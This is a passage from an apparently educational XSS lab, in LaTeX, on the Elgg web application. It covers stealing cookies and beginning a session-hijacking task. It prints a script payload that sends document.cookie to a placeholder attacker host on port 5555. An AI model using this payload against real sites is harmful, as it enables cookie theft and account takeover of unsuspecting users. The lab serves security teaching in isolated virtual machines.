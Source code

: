 \subsection{Task 3: Stealing Cookies from the Victim's Machine}

In the previous task, the malicious JavaScript code written by 
the attacker can print out the
user's cookies, but only the user can see the cookies, not the 
attacker.  In this task, the attacker wants the JavaScript code 
to send the cookies to himself/herself.
To achieve this, the malicious JavaScript code needs to 
send an HTTP request to the attacker, with the cookies appended to 
the request.

We can do this by having the malicious JavaScript insert an {\tt $<$img$>$} tag with
its {\tt src} attribute set to the attacker's machine.  When the JavaScript inserts
the {\tt img} tag, the browser tries to load the image from the URL in
the {\tt src} field; this results in an HTTP GET request sent to the attacker's
machine. The
JavaScript given below sends the cookies to the port 5555 of the
attacker's machine, where the attacker has a TCP server listening 
to the same port. The server can print out whatever it receives. 
The TCP server program is in the echoserver directory on the attacher computer.

{\footnotesize
\begin{Verbatim}[frame=single] 
 <script>document.write('<img src=http://attacker_IP_address:5555?c=' 
                                  + escape(document.cookie) + '   >'); 
 </script> 
\end{Verbatim}
}


\subsection{Task 4: Session Hijacking using the Stolen Cookies}

After stealing the victim's cookies, the attacker can do whatever the victim
can do to the {\tt Elgg} web server, including adding and deleting friends
on behalf of the victim, deleting the victim's post, etc. Essentially, 
the attacker has hijacked the victim's session. 
In this task, we will launch this session hijacking attack, and
write a program to add a friend on behalf of the victim. 
The attack should be launched from another virtual machine.


To add a friend for the victim, we should first find out how a legitimate 
user adds a friend in {\tt Elgg}.
More specifically, we need to figure out what are sent to the server when a user 
adds a friend. Firefox's {\tt Web Developer / Network} tool can help us; it 
can display the contents of any HTTP request message sent 
from the browser. From the contents, we can identify all
the parameters in the request. A screen shot of sample HTTP headers is given in
Figure~\ref{fig:livehttptext}. This header information is gathered using
the  Firefox {\tt Web Developer / Network} tools
in the victim's browser.

